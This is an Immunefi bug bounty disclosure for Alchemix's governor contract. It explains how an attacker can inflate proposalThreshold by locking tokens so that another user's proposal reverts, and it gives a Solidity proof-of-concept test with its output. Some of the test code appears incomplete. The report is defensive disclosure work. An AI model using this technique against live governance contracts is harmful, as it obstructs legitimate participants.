 
# "The proposer can be impeded from submitting a proposal by an attacker who inflates the proposalThreshold."

Submitted on Sat May 04 2024 07:33:54 GMT-0400 (Atlantic Standard Time) by @OxG0P1 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30685

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The `propose` function verifies the minimum votes required for a valid proposal by checking if the number of votes obtained by `_msgSender()` within the last block timestamp is greater than or equal to the current `proposalThreshold()` value. However, it is susceptible to exploitation by an attacker who can manipulate and inflate the `proposalThreshold()` value, thereby preventing any user from successfully proposing a valid proposal.


## Vulnerability Details
In the `propose` function, there exists a verification mechanism ensuring that the `msg.sender` possesses adequate quorum votes to initiate a proposal, denoted by the condition `getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold()`. Here, the `getVotes()` function retrieves the number of votes at `block.timestamp - 1`, while the `proposalThreshold()` is calculated as follows: `(token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR`. Notably, `getPastTotalSupply()` fetches the `totalSupply` at the specified `block.timestamp`.

Consider the following hypothetical scenario:
1. Bob intends to propose a proposal.
2. At timestamp `x`, Bob garners 110 votes.
3. At timestamp `x + 1`, the actual `proposalThreshold` is set at 100 votes.
4. However, Alice opposes Bob's proposal.
5. Alice manipulates the `proposalThreshold` by either locking or depositing assets into an already locked position, thereby ensuring that `getVotes(bob, x) < proposalThreshold()`. Consequently, Bob's proposal transaction fails, leading to a revert.

This scenario underscores a vulnerability where an adversary, in this case, Alice, exploits the system by artificially inflating the `proposalThreshold`, effectively obstructing legitimate proposals such as Bob's from succeeding.

## Impact Details
Opposing an user from proposing by manipulating the `totalSupply`

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/AlchemixGovernor.sol#L45-L47
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2Governor.sol#L309-L312

        
## Proof of concept
## Proof of Concept
`Test :`
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";
import "forge-std/console.sol";

contract AlchemixGovernorTest is BaseTest {
    uint256 tokenId1;
    uint256 tokenId2;
    uint256 tokenId3;

    function setUp() public {
        setupContracts(block.timestamp);

        
        tokenId1 = createVeAlcx(admin, TOKEN_100K / 4, MAXTIME, false); //Assign Admin with some voting power at block.timestamp

    

        
        hevm.warp(block.timestamp + 1); // Timestamp increment

        assertEq(governor.timelock(), address(timelockExecutor));
    }

    function craftTestProposal()
        internal
        view
        returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }




    function testPropose() public {
        address beef2 = address(6);
        address beef3 = address(7);
        address beef4 = address(8);
        address beef5 = address(9);
        address beef6 = address(10);
        address beef7 = address(11);
        createVeAlcx(beef, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef2, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef3, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false); //Locking tokens so that the threshold increses

        ThreshHold = governor.proposalThreshold();
        console.log("TOTAL AT THIS2", ThreshHold);
        hevm.startPrank(admin);

        uint256 adminVotes = governor.getVotes(admin, block.timestamp - 1);
        uint256 pastVotes = veALCX.getPastVotes(admin, block.timestamp - 1);
        console.log("ADMIN VOTES", adminVotes);
        console.log("PAST VOTES", pastVotes);
        assertEq(adminVotes, pastVotes, "governor and veALCX calculated different votes");

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        governor.propose(t, v, c, d, MAINNET); //Admin proposing 

        hevm.stopPrank();
    }
}
```

`Result :`

```solidity
Ran 2 tests for src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
[PASS] testProposeFail() (gas: 1750584)
Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 103.69s (14.80s CPU time)

Ran 1 test suite in 105.70s (103.69s CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
```